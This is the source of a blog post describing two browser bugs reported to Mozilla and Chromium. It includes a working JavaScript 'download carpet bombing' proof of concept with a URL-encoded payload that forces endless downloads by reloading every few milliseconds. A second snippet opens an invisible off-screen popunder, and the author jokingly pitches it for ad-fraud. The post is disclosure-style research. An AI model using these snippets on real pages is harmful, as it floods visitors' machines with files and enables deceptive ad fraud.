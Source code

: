 ```yaml
---
layout: post
title: Messing Around with Web Browsers (Part II)
---
```

_**TL;DR**: This would be a complementary entry for my previous writeup of the same title; here I'll be talking about an interesting download carpet bombing exploit alongside some functionality bug(s)...._

Fine, most probably you're not familiar with the term "Download Carpet Bombing", given that it's not such a common type of browser bugs---nor a severe one---so just to relate, that term is basicaly derived from the military term "Carpet Bombing" which is meant to indicate a type of bombing attack where a carpet of explosives is dropped in a progressive manner so that it inflicts damage in every part of a terget area! Whilst in terms of web security, it's meant to indicate a type of attack in which a massive amount of data/files is automatically dropped into a target machine. Take a look at "<a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-2540" target="_blank">CVE-2008-2540</a>" for instance.
<br />

Now that you've got an idea on what this issue is all about, allow me to throw some ugly JS code onto your face:
{% highlight javascript linenos %}
(function() {
    var payload = unescape('%3Cscript%3Evar%20dropper%3Ddocument.createElement(%22iframe%22)%3Bdropper.src%3D%27data%3Ax%2Fx%2Cfoo%27%3Bdocument.documentElement.appendChild(dropper)%3BsetInterval(function()%7Blocation.reload()%7D%2C%205)%3B%3C%2Fscript%3E');
    location.href = 'data:text/html,' + payload;
}());
{% endhighlight %}
***Caution***, I executed that code once, it was terrible! You've been warned. Anyways, the exploit is pretty much self-explanatory (simply, we first create an iframe element pointing to a downloadable resource so the browser initiates a new download then we do a reload over and over again), and we can even amplify its impact using dynamically created iframes! That said, let's move on to the next bug:

This one is just a functionality bug I stumbled upon while messing around a little with `window.open()` on Firefox; it was possible to open up an off-screen browser window (a.k.a popunder) by overflowing the positioning coordinates, just like this:
{% highlight javascript linenos %}
(function() {
    var el = document.createElement('a');
    el.onclick = function() {
        // Notice the value of the 'top' and 'left' params below?
        window.open('about:blank', 'invisible popup', 'top=100000000000, left=100000000000, width=1, height=1');
    };
    el.href = '#';
    el.innerHTML = 'Click Me';
    document.documentElement.appendChild(el);
}());
{% endhighlight %}
Obviously, such bug can come in handy for ad-fraud, where a little popunder window is exploited for popping up ads long after you stop viewing the offending webpage! Easy money, isn't it?!

***References:***<br />
[\*] <a href="https://bugzilla.mozilla.org/show_bug.cgi?id=978847" target="_blank">https://bugzilla.mozilla.org/show_bug.cgi?id=978847</a><br />
[\*] <a href="https://code.google.com/p/chromium/issues/detail?id=343824" target="_blank">https://code.google.com/p/chromium/issues/detail?id=343824</a> 
